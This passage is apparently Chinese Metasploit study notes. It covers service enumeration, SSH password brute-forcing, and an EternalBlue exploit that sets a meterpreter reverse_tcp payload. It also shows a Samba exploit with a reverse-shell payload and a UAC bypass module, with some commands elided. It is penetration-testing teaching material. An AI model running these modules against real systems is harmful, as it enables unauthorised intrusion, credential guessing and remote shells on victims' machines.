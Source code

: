 
**5.服务查点**
用户服务扫描和查点的工具，通常以`[server_name]_version`命名

- telnet服务查点(查哪些主机开了telnet服务，而namp是查看某主机开放了哪些服务)
![](https://image.geoer.cn/msf_17.png)

- SSH服务查点
```bash
use auxiliary/scanner/ssh/ssh_version
# 口令爆破
use auxiliary/scanner/ssh/ssh_login
```

- MSSQL服务查点
```bash
use auxiliary/scanner/mssql/mssql_version
```



**永恒之蓝实践**
```bash
# 先扫描是否存在
use auxiliary/scanner/smb/ms17_010_eternalblue
...

# 载利用攻击模块
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/reverse_tcp
set RHOST ...
...
exploit
```


#### 漏洞利用
收集完信息后，选择正确的exploit，payload

这里假设是Samba
`info exploit/multi/samba/usermap_sript`,  可以查看到利用成功率`Rank`越高，成功率越大
`use exploit/multi/samba/usermap_sript`
`show options`
`set PAYLOAD cmd/unix/reverse`
... ... 


#### Bypass UAC
```bash
use exploit/windows/local/bypassuac
set session 1
run
```


#### Meterpreter（属于后渗透攻击）
>Metasploit框架中的一个扩展模块
